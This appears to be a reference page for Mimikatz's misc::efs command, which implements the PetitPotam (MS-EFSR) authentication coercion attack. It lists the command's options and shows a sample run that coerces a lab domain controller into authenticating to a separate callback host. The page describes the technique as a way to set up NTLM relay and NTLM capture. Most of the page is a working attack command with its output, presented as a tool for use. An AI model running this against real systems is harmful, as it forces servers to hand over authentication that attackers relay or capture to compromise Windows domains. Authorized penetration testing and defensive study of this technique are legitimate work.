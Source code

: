 # efs

The `misc::efs` is the Mimikatz's implementation of the [MS-EFSR abuse (PetitPotam)](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/ms-efsr), an authentication coercion technique. It has the following command line arguments:

* `/authuser`: the [User Principal Name](https://kb.iu.edu/d/atzp) (UPN). By default it uses the current user's token
* `/authpassword`: the password of the user.
* `/noauth`: use null session
* `/endpoint`: the RPC endpoint. By default is uses `\pipe\lsarpc`
* `/server` or `/target`: the target server
* `/connect` or `/callback`: the unconstrained delegation server, or other host with Responder, etc.

```
mimikatz # misc::efs /server:dc.hacklab.local /connect:192.168.0.18 /noauth
[auth ] None
[ rpc ] Endpoint: \pipe\lsarpc
[trans] Disconnect eventual IPC: OK
[trans] Connect to IPC: OK
[ rpc ] Resolve Endpoint: OK

Remote server reported bad network path! (OK)
> Server (dc.hacklab.local) may have tried to authenticate (to: 192.168.0.18)

[trans] Disconnect IPC: OK
```

For more information on how to exploit this, see The Hacker Recipes. It can be used to NTLM relay attacks, NTLM capture, etc.

{% embed url="https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/ms-efsr" %}
